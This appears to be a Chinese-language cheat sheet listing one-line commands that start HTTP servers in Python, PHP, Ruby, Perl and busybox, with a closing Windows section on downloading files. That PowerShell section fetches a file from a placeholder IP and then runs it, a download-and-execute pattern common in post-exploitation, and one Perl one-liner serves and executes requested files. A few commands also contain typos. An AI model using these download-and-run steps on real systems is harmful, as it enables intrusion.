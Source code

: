 > 当前目录启动HTTP服务

​		python2:

```python
python2 -m SimpleHTTPServer [port]
```

​		python3 

````python
python3 -m http.server [port]
````

#### 	PHP 5.4+

​	PHP版本大于5.4，当前目录启动HTTP服务

```php
php -s 0.0.0.0:[port]
```

#### 	Ruby

```ruby
ruby -rwebrick -e 'WEB:rick::HTTPServer.new(:Port=>1337,:DocumentRoot=>Dir.pwd).start'
```

​	ruby 1.9.2+

```ruby
ruby -run -e httpd [dir] -p [port]
```

#### 	Perl

```
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mount("/"=>{path=>"."}); $s->start'
perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |" : $1) if /^GET \/(.*) / })'
```

#### busybox

```busybox
busybox httpd -f -p 8000
```

### Download files from HTTP server

#### 	Windows 

##### 	powershell

````powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[ip]/[filename]','[指定文件目录]/[文件名]'); #下载文件
start-process '[文件绝对路径]' #执行文件
````
